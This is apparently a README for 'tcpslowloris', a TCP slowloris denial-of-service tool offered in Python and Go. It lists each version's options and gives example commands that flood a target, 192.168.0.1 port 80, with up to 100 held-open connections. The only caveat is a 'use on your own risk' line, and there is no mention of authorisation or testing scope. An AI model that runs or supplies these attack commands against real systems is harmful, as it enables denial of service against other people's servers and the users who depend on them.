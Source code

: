# tcpslowloris
TCP slowloris attack

This simple tool will generate N tcp connections and will keep them alive
by sending keepalive signals<br>
It comes in 2 languages python and golang , choose whats best for you <br>
both are multi platform langs . in both cases , just download a simple file and run

Using the python version :
```
usage: tcpslowloris.py [-h] [-t TOTAL] [-p PULSE] [-d DELAY] [-i interval] [--target TARGET] [--port PORT]

optional arguments:
  -h, --help            show this help message and exit
  -t TOTAL, --total TOTAL
                        Total concurrent TCP sessions
  -p PULSE, --pulse PULSE
                        Number of connections per pulse
  -d DELAY, --delay DELAY
                        Number of seconds betweek pulse
  -i INTERVAL, --interval INTERVAL
                        Keepalive interval , default 57s
  --target TARGET       Target host
  --port PORT           Target port
```
Example use :
>./tcpslowloris.py --target 192.168.0.1 --port 80 -t 100 -p 10 -d 5 
<p>
Using the golang version :
 
 ```
Usage of ./tcpslowloris:
  -delay int
    	The keepalive delay in seconds (default 57)
  -interval int
    	Interval between pulse (default 2)
  -port int
    	Target port number (default 80)
  -pulse int
    	Number of sessions per pulse (default 10)
  -target string
    	Target address FQDN/IP
  -total int
    	Total TCP sessions (default 10)
  ```
Example command : 
>./tcpslowloris --target 192.168.0.1 --port 80 --pulse 2 --total 100 --delay 2 --interval 2

* Use on you own risk, this tool has no warrenty 


